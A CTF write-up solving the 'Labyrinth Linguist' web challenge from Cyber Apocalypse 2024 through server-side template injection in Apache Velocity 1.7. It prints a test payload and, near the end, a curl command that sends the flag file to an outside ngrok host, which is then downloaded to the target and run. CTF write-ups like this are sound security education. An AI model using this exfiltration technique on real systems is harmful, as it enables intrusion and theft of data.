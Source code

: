 ```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2024 | Labyrinth Linguist Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2024
parent: cyber_apocalypse_2024
category: web
challenge: Labyrinth Linguist
tags: "web, twh, ssti"
date: 2024-03-16T00:00:00+00:00
last_update: 2024-03-16T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Cyber Apocalypse 2024</h1>

## Labyrinth Linguist
> Solved by : thewhiteh4t


- In this challenge we have a translation service
- Upon inspecting source files, we noticed few things : 
    - flag file is partially randomized in `entrypoint.sh`

```
mv /flag.txt /flag$(cat /dev/urandom | tr -cd "a-f0-9" | head -c 10).txt
```

- In `pom.xml` we can see the dependencies and their version information :

```xml
<parent>
  <groupId>org.springframework.boot</groupId>
  <artifactId>spring-boot-starter-parent</artifactId>
  <version>1.5.10.RELEASE</version>
</parent>

<dependencies>
  <dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-web</artifactId>
  </dependency>
  <dependency>
    <groupId>org.apache.velocity</groupId>
    <artifactId>velocity</artifactId>
    <version>1.7</version>
  </dependency>
  <dependency>
    <groupId>org.apache.velocity</groupId>
    <artifactId>velocity</artifactId>
    <version>1.7</version>
  </dependency>
</dependencies>
```

- Velocity v1.7 is vulnerable to SSTI attack
- References :
```
https://antgarsil.github.io/posts/velocity/
https://iwconnect.com/apache-velocity-server-side-template-injection/
```
- Based on the PoC above we ran the test case

```
#set ($run=1 + 1) $run
```

![](https://i.imgur.com/AltGQxG.png)

- RCE was blind because we had no output of the commands so we used `ngrok` for getting a callback to confirm if the payload was working
- Then we tried reverse shells but none of them worked for some reason so we thought to simplify we can make it download a file
- And since the command output was not visible we used web requests to exfiltrate the flag by setting custom user agent in curl command

```
> cat pwn

curl "https://f084-116-74-26-67.ngrok-free.app/special" -H "User-Agent: $(cat /flag*)"
```

![](https://i.imgur.com/8itLO2W.png)

- After sending the file we send a second request to run it using : `sh pwn`


![](https://i.imgur.com/sWeNay4.png)



- Web logs in ngrok dashboard :


![](https://i.imgur.com/o1yA2db.png)

